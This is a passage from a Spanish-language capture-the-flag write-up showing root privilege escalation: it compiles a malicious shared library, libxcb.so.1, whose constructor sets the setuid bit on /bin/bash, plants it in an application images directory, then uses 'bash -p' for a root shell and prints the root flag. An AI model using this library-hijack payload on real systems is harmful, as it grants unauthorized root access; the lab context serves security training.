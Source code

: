 Veremos que donde pone `id` pondremos el comando que queremos que se ejecute a nuestro gusto, en mi caso pondre lo siguiente:

```shell
cd /opt/app/static/assets/images
```

```shell
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod u+s /bin/bash");
    exit(0);
}
EOF
```

Y solo tendremos que esperar un ratito, una vez esperado haremos lo siguiente para ver si funciono:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Con esto veremos que ha funcionado, por lo que haremos lo siguiente:

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Y con esto ya seremos `root`, por lo que leeremos la flag de `root`.

> root.txt

```
79cbfb3408f739a361f35067bb99d1b3
```
